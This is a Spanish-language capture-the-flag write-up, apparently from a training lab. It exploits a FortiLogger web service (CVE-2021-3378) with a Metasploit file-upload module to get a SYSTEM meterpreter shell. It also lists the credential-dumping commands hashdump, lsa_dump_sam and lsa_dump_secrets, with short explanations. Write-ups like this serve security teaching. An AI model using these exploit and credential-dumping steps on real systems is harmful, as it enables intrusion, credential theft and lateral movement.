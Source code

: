 ```shell-session

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```


## Una vez que somos root....
Ya podemos sacarle el jugo completo a meterpreter:
- meterpreter > hashdump
	- obtiene los hashes de contraseñas almacenados en la base SAM/NTLM de Windows. Con esos hashes un atacante puede intentar pases por hash o cracking offline.
- meterpreter > lsa_dump_sam
	- exponen secretos guardados por el servicio LSA (Local Security Authority), que pueden incluir credenciales, claves de servicio y secretos de dominio. Revelar esos datos permite pivotar y escalar privilegios.
- meterpreter > lsa_dump_secrets
	- exponen secretos guardados por el servicio LSA (Local Security Authority), que pueden incluir credenciales, claves de servicio y secretos de dominio. Revelar esos datos permite pivotar y escalar privilegios.


---
**1. Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?**

Haciendo un escaneo básico en nmap, observo que existe un servicio http corriendo en el puerto 5000:
```
5000/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Al entrar mediante firefox a este servicio, me encuentro una página web con un formulario de Login firmado por "FORTILOGGER".
Buscando en internet "fortilogger cve" me encuentro que existe la vulnerabilidad *CVE-2021-3378*.

Pues, me abro una consola *msfconsole* y ejecuto:
```
search 2021-3378
```

Me encuentra un módulo del tipo exploit que puedo utilizar, llamado:
>*exploit(windows/http/fortilogger_arbitrary_fileupload)*

Entonces, ejecuto:
```
RHOST 10.129.225.42
LHOST 10.10.14.232   (consultado mediante el comando "ip a")
run
```
